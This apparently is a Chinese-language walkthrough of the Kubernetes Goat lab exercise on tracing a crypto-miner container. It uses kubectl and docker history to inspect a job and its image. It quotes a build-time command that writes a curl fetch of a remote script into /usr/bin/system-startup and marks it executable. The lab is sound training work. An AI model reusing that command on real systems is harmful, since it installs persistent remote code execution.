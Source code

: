 # Analyzing crypto miner container

## Story

![msedge_4Nn1EECwWG](../images/2023-05/msedge_4Nn1EECwWG.png)

## Solution

关于挖矿病毒的溯源，在k8s的环境下，大致的溯源过程就是为`pod -> image -> image built command`。现在，就让我们来试试吧！

```
kubectl get jobs
```

![image-20230503215624610](../images/2023-05/vmware_n66lGIrOHJ.png)

先获取执行了哪些任务，job其实就是类似于我们创建服务的脚本，我们可以获取job的详细信息来看看。

```
kubectl describe job batch-check-job
```

![vmware_OJvUbRAs6j](../images/2023-05/vmware_OJvUbRAs6j.png)

可以看到利用了`madhuakula/k8s-goat-batch-check`这个镜像，通过`docker history`命令，我们可以查看这个镜像在哪里被创建了。

通过**--no-trunc :**显示完整的提交记录。

```
docker history --no-trunc madhuakula/k8s-goat-batch-check
```

这边因为网络问题，不能拉取镜像，所以job执行失败了=。=

所以就贴一下官方的图片。

![sc-10-4-649f6c8af994c250d16af0eae7581db3](../images/2023-05/sc-10-4-649f6c8af994c250d16af0eae7581db3.png)

我们可以看到执行了下面的命令去获取远程的脚本并执行。

```
echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup && chmod +x /usr/bin/system-startup
```

但是目前官网给的这个链接噶掉了，因为上面提到的环境问题，所以我也不知道job里面执行的真实的命令是怎么样，如果最后有师傅做出来了，欢迎和我交流。

